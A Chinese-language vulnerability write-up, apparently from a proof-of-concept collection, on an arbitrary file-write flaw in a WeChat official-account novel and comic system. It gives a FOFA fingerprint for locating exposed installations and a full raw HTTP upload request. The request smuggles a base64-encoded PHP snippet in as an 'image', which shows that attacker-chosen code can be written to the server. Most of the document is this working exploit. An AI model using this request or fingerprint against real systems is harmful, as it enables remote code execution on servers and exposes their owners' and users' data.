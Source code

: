 # 微信公众号小说漫画系统前台任意文件写入漏洞

微信公众号小说漫画系统前台任意文件写入漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
"/Public/home/mhjs/jquery.js"
```

## poc

```javascript
POST /index.php?m=&c=IndexAjax&a=Upload HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 78
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=bf13e78oe1uqp8nh3crld1gu55; uloginid=107639
Host: 127.0.0.1
Origin: http://127.0.0.1
Pragma: no-cache
Referer: http://127.0.0.1/index.php?m=&c=IndexAjax
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

img=data:image/php;base64,YTw/cGhwIHBocGluZm8oKTs/Pg==&size=50
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410071436370.webp)

## 漏洞来源

- https://mp.weixin.qq.com/s/NL7sKpAiajkp_aIoPNZEDQ

